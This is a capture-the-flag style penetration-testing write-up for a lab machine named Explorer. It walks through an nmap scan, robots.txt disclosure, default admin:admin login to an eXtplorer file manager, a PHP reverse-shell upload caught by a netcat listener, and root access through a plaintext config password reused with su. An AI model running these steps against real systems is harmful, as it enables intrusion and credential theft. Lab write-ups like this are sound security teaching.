










# Explorer - Penetration Testing Report

**Machine:** Explorer

**Platform:** Custom Lab

**Difficulty:** Easy

**IP Address:** 10.13.0.77

**Operating System:** Linux (Debian)

**Date:** March 29, 2026

---

## Executive Summary

Successfully compromised the Explorer machine through exposed file management interface (eXtplorer) running with weak default credentials. Initial access was achieved via web shell upload, followed by credential discovery in configuration files leading to root access. The machine demonstrated basic but common web application vulnerabilities.

**Attack Path:**

```
Port scanning → Web enumeration → eXtplorer file manager discovery → PHP shell upload → Configuration file analysis → Database credential extraction → Root password reuse → Root access
```

---

## Reconnaissance & Enumeration

### Port Scanning

```bash
sudo nmap -T4 -sV -sS -O -sC --min-rate 5000 -p- 10.13.0.77
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 22/tcp | SSH | OpenSSH 9.2p1 (Debian) |
| 80/tcp | HTTP | Apache httpd 2.4.65 (Debian) |



**Key Findings:**

- Debian-based Linux system
- Apache web server running
- Standard SSH service

---

### Web Enumeration

### Default Apache Page

Accessing `http://10.13.0.77` showed default Apache installation page.

**Finding:** "It works!" - Default Apache page indicating no custom content on root.



---

### robots.txt Discovery



**Contents:**

```
User-agent: *
Disallow: /extplorer/
```

**Critical Discovery:** Hidden directory `/extplorer/` disclosed via robots.txt.

---

### eXtplorer File Manager

Accessing `http://10.13.0.77/extplorer/`

**Application Details:**

- **Software:** eXtplorer File Manager
- **Purpose:** Web-based file management interface
- **Permissions:** Read/write access to web root
- **Authentication:** Login required admin : admin



**Files Visible:**

- `index.html` - Apache default page
- `robots.txt` - Directory disclosure file
- `extplorer/` - File manager directory

**Security Issue:** File manager accessible without strong authentication controls.

---

## Exploitation

### PHP Web Shell Upload

**Strategy:** Upload PHP reverse shell to gain command execution.

**Preparation:**

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
```

**Upload Process:**

The eXtplorer interface allowed direct file upload to the web root directory without proper validation or authentication.

**File Uploaded:** `shell.php` (PHP reverse shell)


---

### Triggering Reverse Shell

**Setup Listener:**

```bash
nc -lvnp 443
```

**Accessing Shell:**

Navigated to `http://10.13.0.77/shell.php` to trigger the reverse shell.

**Result:**

```bash
connect to [10.13.1.203] from (UNKNOWN) [10.13.0.77] 55880
Linux explorer 6.1.0-39-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.148-1 (2025-08-26) x86_64
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
```

**Shell received as `www-data`!**

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



---

## Initial Access & Enumeration

### User Flag

```bash
cd /home
ls
cat user.txt
```



**User Flag:** `3f2580ab16ac82c9e0adaf0dad3a900d`

---

### Configuration File Analysis

**eXtplorer Configuration:**

```bash
cd /var/www/html/extplorer/config
ls -la
```

**Files Found:**

- `.htaccess`
- `.htusers.php`
- `bookmarks_extplorer_admin.php`
- `conf.php` - Main configuration file
- `index.html`
- `mimes.php`



**Examining conf.php:**

```bash
cat conf.php
```

**Key Configuration Details:**

```php
// Database Configuration
$GLOBALS['DB_HOST'] = 'localhost';
$GLOBALS['DB_NAME'] = 'webdav';
$GLOBALS['DB_USER'] = 'root';
$GLOBALS['DB_PASSWORD'] = 'Access$Granted#1';
$GLOBALS['DB_TYPE'] = 'mysql';
```

**Critical Finding:** Database credentials discovered in plaintext configuration file!



**Credentials Found:**

- **Username:** root
- **Password:** Access$Granted#1

---

## Privilege Escalation

### Password Reuse Attack

**Strategy:** Test discovered database password for root system access.

```bash
su root
Password: Access$Granted#1
```

**Success!**

```bash
whoami
# root

id
# uid=0(root) gid=0(root) grupos=0(root)
```



**Root access achieved through password reuse!**

---

## Proof of Compromise

### Root Flag

```bash
cd /root
cat root.txt
```



**Root Flag:** `9a045d36c5a28f01784bdcfb326accfe`

---

## Vulnerability Summary

| Vulnerability | Severity | Impact |
| --- | --- | --- |
| Information Disclosure (robots.txt) | Medium | Directory enumeration aid |
| Unrestricted File Upload | Critical | Arbitrary code execution |
| Weak Access Controls (eXtplorer) | High | Unauthorized file management |
| Plaintext Credentials in Config | Critical | Database credential exposure |
| Password Reuse (root) | Critical | System-level compromise |

---

## Attack Chain

```
[1] Port Scan
    → SSH (22) and HTTP (80) discovered
        ↓
[2] Web Enumeration
    → robots.txt revealed /extplorer/
    → Found eXtplorer file manager
        ↓
[3] File Upload Exploitation
    → Uploaded PHP reverse shell
    → No upload validation or restrictions
        ↓
[4] Remote Code Execution
    → Accessed shell.php
    → Reverse shell received as www-data
        ↓
[5] User Flag
    → Found in /home/user.txt
        ↓
[6] Configuration File Analysis
    → Examined /var/www/html/extplorer/config/conf.php
    → Discovered database credentials
        ↓
[7] Password Reuse Attack
    → Tested root password: Access$Granted#1
    → su root successful
        ↓
[8] Root Access
    → Complete system compromise
    → Root flag obtained
```

---

## Tools Used

| Tool | Purpose |
| --- | --- |
| Nmap | Port scanning and service detection |
| Netcat | Reverse shell listener |
| PHP Reverse Shell | Remote code execution payload |

---

## Key Lessons

1. **robots.txt is not security** - Disallow directives don't prevent access, only guide search engines
2. **File upload validation is critical** - eXtplorer allowed unrestricted PHP uploads enabling RCE
3. **Never store credentials in config files** - Database passwords were plaintext in web-accessible config
4. **Password reuse amplifies risk** - Root system password matched database password
5. **Web-based file managers are high-risk** - These applications provide powerful functionality that attackers can abuse

---

## Assessment

**Difficulty Rating:** Low/Easy

**Why Easy:**

- robots.txt directly revealed the attack vector
- eXtplorer had minimal access controls
- File upload required no authentication bypass
- Configuration file was readable by web user
- Password reuse made privilege escalation trivial

**Real-World Relevance:**

- File managers like eXtplorer, phpMyAdmin, and Adminer are commonly found in web hosting environments
- Configuration files with hardcoded credentials remain a widespread issue
- Password reuse between services/accounts is a persistent problem

**Time to Compromise:** ~15 minutes

---

## Conclusion

The Explorer machine demonstrated fundamental web application security failures: information disclosure, unrestricted file upload, insecure credential storage, and password reuse. While the exploitation path was straightforward, these vulnerabilities represent real issues found in production environments. The machine served as a practical reminder that even "easy" vulnerabilities can lead to complete system compromise when chained together.

---

**Happy Hacking!**